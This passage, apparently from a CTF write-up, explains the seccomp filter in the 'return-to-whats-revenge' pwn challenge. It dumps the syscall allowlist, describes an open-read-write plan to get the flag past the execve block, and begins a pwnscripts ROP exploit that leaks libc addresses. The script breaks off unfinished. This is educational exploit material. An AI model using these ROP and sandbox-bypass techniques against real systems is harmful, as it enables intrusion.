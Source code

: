 ```c
	bpf_resolve_jumps(&lab, filter, 0x19);
	prctl(PR_SET_NO_NEW_PRIVS, 1);
	prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, prog);
}
```
If you're experienced enough, you might spot that `sandbox()` is applying a whole bunch of [seccomp filters](https://www.yangyang.cloud/blog/2019/12/12/linux-seccomp-filters/)<sup>2</sup> to the binary. Instead of eyeballing the code, we can use a [tool](https://github.com/david942j/seccomp-tools) to help us dump out what all of this code does:
```bash
$ seccomp-tools dump return-to-whats-revenge
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x0000000f  if (A != rt_sigreturn) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x15 0x00 0x01 0x0000000c  if (A != brk) goto 0018
 0017: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0018: 0x15 0x00 0x01 0x00000009  if (A != mmap) goto 0020
 0019: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0020: 0x15 0x00 0x01 0x0000000a  if (A != mprotect) goto 0022
 0021: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0022: 0x15 0x00 0x01 0x00000003  if (A != close) goto 0024
 0023: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0024: 0x06 0x00 0x00 0x00000000  return KILL
```
The important parts are in the `(A != ...)` statements. `sandbox()` enables a `syscall` filter<sup>2</sup> to block any syscall that doesn't match the ones listed. Our `one_gadget` attempt earlier crashes because it makes a call to `execve`, which in turn is reliant on the `SYS_execve` syscall to work (which is therefore filtered and `KILL`ed by the program).

The (useful) syscalls we have access to are `open`, `read`, `write`, `brk`, `mmap`, and `mprotect`. This challenge reminded me of pwnable.tw's [orw](https://pwnable.tw/challenge/#2) challenge, so I decided that the easiest way to get the flag was to
1. `int fd = open("flag.txt", O_RDONLY)`
2. `read(fd, .bss, 99)`
3. `write(stdout, .bss, 99)`

The implementation for this exploit is actually really simple<sup>3</sup> --- `libc.so.6` provides all the gadgets you could ever need for argument assignment, so finishing up this exploit is really just a matter of abusing pwnscripts' `ROP()` again:
```python
from pwnscripts import *
context.binary = 'return-to-whats-revenge'	# changed
context.libc_database = 'libc-database'

scratch = 0x404100
rop = ROP(context.binary)
rop.raw(b'\0'*0x38)
rop.puts(context.binary.got['puts'])
rop.puts(context.binary.got['gets'])
```